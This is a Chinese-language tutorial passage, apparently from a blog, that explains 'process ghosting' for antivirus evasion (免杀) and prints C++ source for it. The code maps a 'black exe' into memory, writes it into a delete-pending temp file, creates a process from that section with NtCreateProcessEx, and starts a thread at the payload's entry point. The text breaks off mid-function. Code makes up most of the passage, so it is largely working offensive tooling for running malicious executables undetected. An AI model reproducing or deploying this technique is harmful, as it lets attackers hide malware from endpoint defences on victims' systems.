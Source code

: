 •black exe：要免杀获取自删除的文件

      •white exe：这个可以是任意文件，它的主要作用是获取white exe的进程环境变量，此程序不会被打开      •temp file：这是为black exe创建的temp文件，会被设置为删除状态，并且在启动进程后会自动删除。

  

下面是整个代码的思维导图：

![](https://gitee.com/fuli009/images/raw/master/public/20211015102214.png)

其中主要涉及到三个函数分别是buffer_payload、process_ghost、make_section_from_delete_pending_file。

### buffer_payload

它的主要作用是打开black exe文件句柄，并将black
exe映射进内存，但是不执行后续的启动process操作。而后将exe映射进内存中的数据以指针的形式返回。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    BYTE* buffer_payload(wchar_t *filename, OUT size_t &r_size) {    HANDLE file = CreateFileW(filename, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);//获取文件handle    if (file == INVALID_HANDLE_VALUE) {        cout << "create file fail!\n" << endl;    }    HANDLE mapping = CreateFileMapping(file, 0, PAGE_READONLY, 0, 0, 0); //打开或创建文件的映射对象，返回值为新创建的文件映射handle    if (!mapping) {        CloseHandle(file);        return nullptr;        cout << "create map fail!\n" << endl;    }    BYTE* dllRawData = (BYTE*)MapViewOfFile(mapping, FILE_MAP_READ, 0, 0, 0);//将文件映射handle映射到进程空间    if (dllRawData == nullptr) {        cout << "map move fail!\n" << endl;        CloseHandle(mapping);        CloseHandle(file);        return nullptr;    }    r_size = GetFileSize(file, 0);    BYTE* localCopyAddress = (BYTE*)VirtualAlloc(NULL, r_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);//内存中申请文件大小的地址空间    memcpy(localCopyAddress, dllRawData, r_size);    UnmapViewOfFile(dllRawData);//解映射    CloseHandle(mapping);    CloseHandle(file);    return localCopyAddress;  
    }

### process_ghost

这个函数的主要作用是进行启动进程的操作。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    bool process_ghost(wchar_t* targetPath, BYTE* payladBuf, DWORD payloadSize){    wchar_t dummy_name[MAX_PATH] = { 0 };    wchar_t temp_path[MAX_PATH] = { 0 };    DWORD size = GetTempPathW(MAX_PATH, temp_path);//获取temp文件路径    GetTempFileNameW(temp_path, L"TH", 0, dummy_name);//给temp文件创建一个名称  
        HANDLE hSection = make_section_from_delete_pending_file(dummy_name, payladBuf, payloadSize);//将temp文件属性设置为删除状态，并将文件映射进section    if (!hSection || hSection == INVALID_HANDLE_VALUE) {        return false;    }    HANDLE hProcess = nullptr;    NTSTATUS status = NtCreateProcessEx(        &hProcess,        PROCESS_ALL_ACCESS,        NULL,        NtCurrentProcess(),        PS_INHERIT_HANDLES,        hSection,        NULL,        NULL,        FALSE    );//根据传入的section创建process    if (status != STATUS_SUCCESS) {        cerr << "NtCreateProcessEx failed! Status: " << hex << status << endl;        if (status == STATUS_IMAGE_MACHINE_TYPE_MISMATCH) {            cerr << "[!] The payload has mismatching bitness!" << endl;        }        return false;    }    PROCESS_BASIC_INFORMATION pi = { 0 };    DWORD ReturnLength = 0;    status = NtQueryInformationProcess(        hProcess,        ProcessBasicInformation,        &pi,        sizeof(PROCESS_BASIC_INFORMATION),        &ReturnLength    );//索引创建的进程基础信息    if (status != STATUS_SUCCESS) {        std::cerr << "NtQueryInformationProcess failed" << std::endl;        return false;    }    PEB peb_copy = { 0 };    if (!buffer_remote_peb(hProcess, pi, peb_copy)) {//将black exe的内存数据复制到peb_copy，主要作用是获取ImageBaseAddress        return false;    }    ULONGLONG imageBase = (ULONGLONG)peb_copy.ImageBaseAddress;    DWORD payload_ep = get_entry_point_rva(payladBuf);//获取入口点的偏移地址    ULONGLONG procEntry = payload_ep + imageBase;//获取到入口点的地址    if (!setup_process_parameters(hProcess, pi, targetPath)) {//将环境变量写入进程的内存空间，此处是唯一一次用到white exe的地方:)        std::cerr << "Parameters setup failed" << std::endl;        return false;    }    HANDLE hThread = NULL;    status = NtCreateThreadEx(&hThread,        THREAD_ALL_ACCESS,        NULL,        hProcess,        (LPTHREAD_START_ROUTINE)procEntry,        NULL,        FALSE,        0,        0,        0,        NULL    );//在进程中black exe内存的入口点创建线程  